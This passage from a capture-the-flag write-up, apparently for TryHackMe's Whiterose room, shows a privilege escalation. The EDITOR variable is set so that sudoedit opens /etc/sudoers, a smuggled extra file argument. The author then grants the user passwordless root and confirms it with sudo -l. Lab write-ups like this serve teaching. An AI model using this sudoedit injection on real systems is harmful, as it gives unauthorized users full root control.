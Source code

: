 ```console
web@cyprusbank:~/app$ export EDITOR="nano -- /etc/sudoers"
web@cyprusbank:~/app$ sudo sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```
As observed, we successfully opened the `/etc/sudoers` file using `nano`.

![Nano Sudoers File](/images/tryhackme_whiterose/nano_sudoers_file.webp){: width="1000" height="500" }

By adding `web ALL=(ALL) NOPASSWD: ALL` to the `/etc/sudoers` file, we grant our current user full `sudo` privileges without requiring a password.

![Nano Sudoers File Two](/images/tryhackme_whiterose/nano_sudoers_file2.webp){: width="1000" height="500" }

After saving the file and closing both the editor and the terminal, we can confirm that the changes to our `sudo` privileges have been applied successfully.

```console
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
    (ALL) NOPASSWD: ALL
```
